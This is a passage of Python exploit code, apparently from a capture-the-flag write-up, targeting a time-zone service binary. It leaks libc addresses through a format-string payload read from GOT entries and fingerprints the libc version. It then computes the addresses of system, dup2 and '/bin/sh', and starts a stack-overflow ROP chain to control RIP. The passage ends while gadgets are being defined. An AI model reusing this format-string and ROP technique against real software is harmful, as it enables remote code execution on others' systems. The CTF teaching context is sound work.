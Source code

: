 ```python
    setvbuf_plt = 0x603050 # setvbuf@GLIBC_2.2.5
    gmtime_plt  = 0x603058 # gmtime@GLIBC_2.2.5

    amount = 40
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    send(s, "DDDDDDDD" + "%p|"*(amount) + "|%32$s|X" + "|%33$s|X" + "|%34$s|X" + "|%35$s|X" + "AAAABBBB" + p64(setvbuf_plt) + p64(time_plt) + p64(gmtime_plt) + p64(free_plt) + "---END")
    stack = recv_until(s, "AAAABBBB").split("|")[:-1]
    # cnt = 0
    # for i in stack:
    #     print "%d: %s" % (cnt, i)
    #     cnt += 1

    setvbuf_libc = unpack("Q", stack[41].ljust(8, "\x00"))[0]
    time_libc    = unpack("Q", stack[43].ljust(8, "\x00"))[0]
    gmtime_libc  = unpack("Q", stack[45].ljust(8, "\x00"))[0]
    free_libc    = unpack("Q", stack[47].ljust(8, "\x00"))[0]

    # We have now 4 different libc addresses (eventhough time's address is always wrong for some reason. We'll use the other 3.)
    # Lets determine which libc is the server using this "https://github.com/niklasb/libc-database".
    # It downloads the most common libcs and than given pairs of (function , offset) it returns the possible ones.
    # We, as team, could have a libc database so more rare libcs would be found for harder problems.
    #         Run: "./find setvbuf e70 free 940 gmtime d60"
    #      Result: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu7_amd64)
    # We then run: "./dump libc6_2.23-0ubuntu7_amd64" and get offsets of interesting funtions. Other offsets can be found in the symbols file.

    offset_setvbuf    = 0x6fe70
    offset_system     = 0x45390
    offset_dup2       = 0xf6d90
    offset_str_bin_sh = 0x18c177

    LIBC_BASE = setvbuf_libc - offset_setvbuf

    bin_sh_str_adr = LIBC_BASE + offset_str_bin_sh
    system_addr    = LIBC_BASE + offset_system
    dup2_addr      = LIBC_BASE + offset_dup2

    print "-------------------------------------"
    print "|    setvbuf_libc is: %s|" % hex(setvbuf_libc)
    print "|       time_libc is: %s| (wrong but irrelevant)" % hex(time_libc)
    print "|     gmtime_libc is: %s|" % hex(gmtime_libc)
    print "|       free_libc is: %s|" % hex(free_libc)
    print "|       LIBC BASE is: %s|" % hex(LIBC_BASE)
    print "|     SYSTEM ADDR is: %s|" % hex(system_addr)
    print "| BIN_SH STR ADDR is: %s|" % hex(bin_sh_str_adr)
    print "-------------------------------------"

    # Lets now overwrite the RIP with our ROP and redirect code execution!
    print "\n***********************"
    print "*** CONTROLLING RIP ***"
    print "***********************"
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    pad1 = 'A'*(2048+8)
    pad2 = "CCCCCCCC"*7  # Write over other saved registers

    pop_rdi_ret = 0x400b34 # pop rdi ; ret
    pop_rsi_ret = 0x4009ff # pop rsi ; pop r15 ; ret

```